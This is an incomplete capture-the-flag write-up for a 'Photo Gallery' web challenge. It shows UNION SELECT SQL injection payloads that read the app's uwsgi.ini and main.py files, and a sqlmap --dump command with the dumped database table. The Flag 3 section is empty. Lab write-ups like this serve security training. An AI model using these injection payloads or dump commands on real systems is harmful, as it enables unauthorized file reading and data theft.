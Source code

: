 # Photo Gallery
## Flag 1
* http://35.227.24.107/a46a28d046/fetch?id=1 when selected image
* based on the Hint "Take a few minutes to consider the state of the union"
* A union select could be used however the location was understood after the nxext hint
* "This application runs on the uwsgi-nginx-flask-docker image" from a quick search the file loacation was dtermined.
* uwsgi.ini is the config and main.py is the main file
* Hence id=1.1 UNION SELECT 'uwsgi.ini' -- and id=1.1 UNION SELECT 'main,py' -- was tried 
* main.py had the flag.

## Flag 2
* http://35.227.24.107/a46a28d046/fetch?id=1 used with sqlmap
* sqlmap -u 35.227.24.107/a46a28d046/fetch?id=1 --dump --threads 10
+----+------------------+--------+------------------------------------------------------------------+
| id | title            | parent | filename                                                         |
+----+------------------+--------+------------------------------------------------------------------+
| 1  | Utterly adorable | 1      | files/adorable.jpg                                               |
| 2  | Purrfect         | 1      | files/purrfect.jpg                                               |
| 3  | Invisible        | 1      | 6dfbfe3982dad39f87b8e1648a46c791e9baadee1b89ad5dda5cd487e63a8896 |
+----+------------------+--------+------------------------------------------------------------------+


## Flag 3
* 
